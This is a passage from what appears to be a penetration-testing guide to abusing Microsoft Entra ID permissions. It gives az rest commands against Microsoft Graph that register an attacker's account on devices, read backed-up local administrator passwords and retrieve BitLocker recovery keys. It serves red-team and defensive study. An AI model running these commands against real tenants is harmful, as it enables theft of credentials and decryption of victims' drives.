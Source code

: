 ### `microsoft.directory/devices/registeredUsers/update`

This permission allows attackers to associate their account with devices to gain access or to bypass security policies.

```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/devices/$deviceId/registeredUsers/\$ref" \
  --headers "Content-Type=application/json" \
  --body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```

### `microsoft.directory/deviceLocalCredentials/password/read`

This permission allows attackers to read the properties of the backed up local administrator account credentials for Microsoft Entra joined devices, including the password

```bash
# List deviceLocalCredentials
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials"

# Get credentials
deviceLC="<deviceLCID>"
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials/$deviceLCID?\$select=credentials" \
```

## BitlockerKeys

### `microsoft.directory/bitlockerKeys/key/read`

This permission allows to access BitLocker keys, which could allow an attacker to decrypt drives, compromising data confidentiality.

```bash
# List recovery keys
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys"

# Get key
recoveryKeyId="<recoveryKeyId>"
az rest --method GET \
  --uri "https://graph.microsoft.com/v1.0/informationProtection/bitlocker/recoveryKeys/$recoveryKeyId?\$select=key"
```

## Other Interesting permissions (TODO)

